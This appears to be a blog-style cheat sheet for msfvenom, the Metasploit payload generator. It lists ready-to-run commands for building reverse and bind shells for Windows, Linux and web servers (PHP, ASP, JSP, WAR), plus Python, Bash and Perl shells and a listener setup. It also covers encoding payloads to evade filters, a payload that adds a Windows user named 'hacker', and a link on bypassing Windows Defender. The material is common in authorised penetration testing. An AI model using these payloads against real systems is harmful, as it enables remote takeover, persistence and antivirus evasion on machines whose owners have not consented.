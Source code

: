 ```yaml
---
layout: post
title: msfvenom cheatsheat
description: msfvenom cheatsheet
date: 2022-04-29
Last Updated: 
---
```

#### Creating a payload

`msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]`

To view list of payloads: `msfvenom -l payloads`

To view the payload options: `msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options`

#### Creating a payload with encoding

`msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile`

#### Creating a payload using a template

`msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile`

#### Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

#### Windows Payloads
```
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

#### Linux Payloads
```
- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
- msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
```

#### Add a user in windows with msfvenom:

`msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`

#### Web Payloads
```
PHP

- msfvenom -p php/meterpreter_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php</your></your>

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f asp > shell.asp</your></your>

JSP

- msfvenom -p java/jsp_shell_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.jsp</your></your>

WAR

- msfvenom -p java/jsp_shell_reverse_tcp LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f war > shell.war</your></your>

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.py</your></your>

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.sh</your></your>

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST= <your ip="" address="">LPORT= <your port="" to="" connect="" on="">-f raw > shell.pl</your></your>

Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"

```

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/